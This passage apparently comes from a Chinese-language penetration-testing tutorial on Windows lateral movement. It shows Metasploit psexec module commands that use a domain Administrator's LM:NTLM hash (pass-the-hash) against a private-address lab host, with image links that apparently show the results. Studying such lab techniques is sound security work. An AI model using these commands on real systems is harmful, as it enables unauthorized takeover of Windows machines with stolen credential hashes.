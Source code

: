 [![](assets/1706958938-ba15bedb78aea5a4afc7c4b336c2b765.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172305511-406542361.png)

#### 法二：msf 的 psexec

```bash
search psexec
use exploit/windows/smb/psexec
show option
set rhosts 192.168.126.10
set SMBDomain MAO
set SMBUSER Administrator
set SMBpass 6f08d7b306b1dad4b75e0c8d76954a50:570a9a65db8fba761c1008a51d4c95ab   # LM:NTLM
exploit
```

[![](assets/1706958938-c415c0869bc50ada03af1dddd070746a.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172307165-1816188126.png)
